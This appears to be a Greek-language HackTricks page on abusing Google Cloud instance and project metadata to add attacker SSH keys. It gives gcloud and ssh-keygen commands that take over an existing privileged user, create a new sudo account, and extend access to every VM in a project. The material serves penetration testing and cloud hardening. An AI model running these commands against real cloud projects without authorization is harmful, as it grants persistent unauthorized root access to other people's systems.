 # GCP - Προσθήκη Προσαρμοσμένων SSH Μεταδεδομένων

## GCP - Προσθήκη Προσαρμοσμένων SSH Μεταδεδομένων

{{#include ../../../../banners/hacktricks-training.md}}

### Τροποποίηση των μεταδεδομένων <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Η τροποποίηση των μεταδεδομένων σε μια παρουσία θα μπορούσε να οδηγήσει σε **σημαντικούς κινδύνους ασφαλείας αν ένας επιτιθέμενος αποκτήσει τις απαραίτητες άδειες**.

#### **Ενσωμάτωση Κλειδιών SSH σε Προσαρμοσμένα Μεταδεδομένα**

Στο GCP, **τα συστήματα Linux** συχνά εκτελούν σενάρια από το [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Ένα κρίσιμο στοιχείο αυτού είναι το [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), το οποίο έχει σχεδιαστεί για να **ελέγχει τακτικά** το σημείο μεταδεδομένων της παρουσίας για **ενημερώσεις στα εξουσιοδοτημένα δημόσια κλειδιά SSH**.

Επομένως, αν ένας επιτιθέμενος μπορεί να τροποποιήσει τα προσαρμοσμένα μεταδεδομένα, θα μπορούσε να κάνει το daemon να βρει ένα νέο δημόσιο κλειδί, το οποίο θα επεξεργαστεί και θα **ενσωματωθεί στο τοπικό σύστημα**. Το κλειδί θα προστεθεί στο αρχείο `~/.ssh/authorized_keys` ενός **υπάρχοντος χρήστη ή ενδεχομένως να δημιουργήσει έναν νέο χρήστη με δικαιώματα `sudo`**, ανάλογα με τη μορφή του κλειδιού. Και ο επιτιθέμενος θα είναι σε θέση να παραβιάσει τον κεντρικό υπολογιστή.

#### **Προσθήκη κλειδιού SSH σε υπάρχοντα προνομιούχο χρήστη**

1. **Εξέταση Υπαρχόντων Κλειδιών SSH στην Παρουσία:**

- Εκτελέστε την εντολή για να περιγράψετε την παρουσία και τα μεταδεδομένα της για να εντοπίσετε τα υπάρχοντα κλειδιά SSH. Η σχετική ενότητα στην έξοδο θα είναι κάτω από `metadata`, συγκεκριμένα το κλειδί `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Δώστε προσοχή στη μορφή των κλειδιών SSH: το όνομα χρήστη προηγείται του κλειδιού, χωρισμένο με άνω και κάτω τελεία.

2. **Προετοιμασία Αρχείου Κειμένου για Μεταδεδομένα Κλειδιού SSH:**
- Αποθηκεύστε τις λεπτομέρειες των ονομάτων χρηστών και των αντίστοιχων κλειδιών SSH σε ένα αρχείο κειμένου με όνομα `meta.txt`. Αυτό είναι απαραίτητο για τη διατήρηση των υπαρχόντων κλειδιών ενώ προστίθενται νέα.
3. **Δημιουργία Νέου Κλειδιού SSH για τον Στόχο Χρήστη (`alice` σε αυτό το παράδειγμα):**

- Χρησιμοποιήστε την εντολή `ssh-keygen` για να δημιουργήσετε ένα νέο κλειδί SSH, διασφαλίζοντας ότι το πεδίο σχολίου (`-C`) ταιριάζει με το όνομα χρήστη στόχο.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Προσθέστε το νέο δημόσιο κλειδί στο `meta.txt`, μιμούμενοι τη μορφή που βρέθηκε στα μεταδεδομένα της παρουσίας.

4. **Ενημέρωση των Μεταδεδομένων Κλειδιού SSH της Παρουσίας:**

- Εφαρμόστε τα ενημερωμένα μεταδεδομένα κλειδιού SSH στην παρουσία χρησιμοποιώντας την εντολή `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Πρόσβαση στην Παρουσία Χρησιμοποιώντας το Νέο Κλειδί SSH:**

- Συνδεθείτε στην παρουσία με SSH χρησιμοποιώντας το νέο κλειδί, αποκτώντας πρόσβαση στο shell στο πλαίσιο του χρήστη στόχου (`alice` σε αυτό το παράδειγμα).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Δημιουργία νέου προνομιούχου χρήστη και προσθήκη κλειδιού SSH**

Αν δεν βρεθεί ενδιαφέρον χρήστης, είναι δυνατόν να δημιουργηθεί ένας νέος που θα του δοθούν δικαιώματα `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

Είναι δυνατόν να διευρυνθεί η πρόσβαση SSH σε πολλές Εικονικές Μηχανές (VMs) σε ένα περιβάλλον cloud **εφαρμόζοντας τα κλειδιά SSH σε επίπεδο έργου**. Αυτή η προσέγγιση επιτρέπει την πρόσβαση SSH σε οποιαδήποτε παρουσία εντός του έργου που δεν έχει ρητά αποκλείσει τα κλειδιά SSH σε επίπεδο έργου. Ακολουθεί ένας συνοπτικός οδηγός:

1. **Εφαρμογή Κλειδιών SSH σε Επίπεδο Έργου:**

- Χρησιμοποιήστε την εντολή `gcloud compute project-info add-metadata` για να προσθέσετε τα κλειδιά SSH από το `meta.txt` στα μεταδεδομένα του έργου. Αυτή η ενέργεια διασφαλίζει ότι τα κλειδιά SSH αναγνωρίζονται σε όλες τις VMs του έργου, εκτός αν μια VM έχει ενεργοποιημένη την επιλογή "Αποκλεισμός κλειδιών SSH σε επίπεδο έργου".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH σε Παρουσίες Χρησιμοποιώντας Κλειδιά σε Επίπεδο Έργου:**
- Με τα κλειδιά SSH σε επίπεδο έργου στη θέση τους, μπορείτε να κάνετε SSH σε οποιαδήποτε παρουσία εντός του έργου. Παρουσίες που δεν αποκλείουν τα κλειδιά σε επίπεδο έργου θα αποδεχτούν το κλειδί SSH, παρέχοντας πρόσβαση.
- Μια άμεση μέθοδος για να κάνετε SSH σε μια παρουσία είναι η χρήση της εντολής `gcloud compute ssh [INSTANCE]`. Αυτή η εντολή χρησιμοποιεί το τρέχον όνομα χρήστη σας και τα κλειδιά SSH που έχουν οριστεί σε επίπεδο έργου για να προσπαθήσει να αποκτήσει πρόσβαση.

## References

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
